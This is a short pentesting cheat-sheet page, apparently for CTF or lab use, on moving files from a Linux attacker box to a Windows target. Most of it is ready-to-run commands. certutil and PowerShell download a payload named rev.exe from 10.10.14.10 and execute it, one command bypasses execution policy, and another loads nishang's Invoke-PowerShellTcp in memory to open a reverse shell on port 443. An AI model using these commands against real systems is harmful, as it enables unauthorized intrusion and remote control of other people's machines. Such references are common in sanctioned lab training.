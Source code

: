 ```yaml
---
title: "File Transfer (Linux to Windows)"
date: 2024-6-26
tags: ["file transfer", "Windows", "evil-winrm"]
---
```


---
{{< tab set1 tab1 active >}}CMD{{< /tab >}}
{{< tab set1 tab2 >}}Powershell{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local HTTP Server

<div>

```bash
python3 -m http.server 80
```

</div>

<br>

<div>

```bash
certutil -urlcache -split -f http://10.10.14.10/rev.exe C:\ProgramData\rev.exe
```

```bash
# Upload and Run
certutil -urlcache -split -f http://10.10.14.10/rev.exe C:\ProgramData\rev.exe && C:\ProgramData\rev.exe
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Start a Local HTTP Server

<div>

```bash
python3 -m http.server 80
```

</div>

<br>

<div>

```powershell
# Long version
Invoke-WebRequest http://10.10.14.10/rev.exe -OutFile C:\ProgramData\rev.exe
```

```powershell
# Short version
iwr http://10.10.14.10/rev.exe -o C:\ProgramData\rev.exe
```

<small>*Note: PowerShell 3.0+*</small>

</div>

<div>

```powershell
# Long version
powershell.exe -ExecutionPolicy bypass curl 10.10.14.10/rev.exe -o C:\ProgramData\rev.exe
```

```powershell
# Short version
powershell -ep bypass curl 10.10.14.10/rev.exe -o C:\ProgramData\rev.exe
```

<small>*Note: curl is not always available*</small>

</div>

<div>

```powershell
# Load into memory and Run
```

```powershell
# Long version
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 443
```

```powershell
# Short version
iex (New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 443
```

```powershell
# Combined version
iex (iwr http://10.10.14.10/rev.ps1)
```

<small>*Ref: [rev.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)*</small>

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```bash
# Evil-winrm built-in function
upload "/tmp/example.txt" "C:\ProgramData\example.txt"
```

</div>

{{< /tabcontent >}}

<br>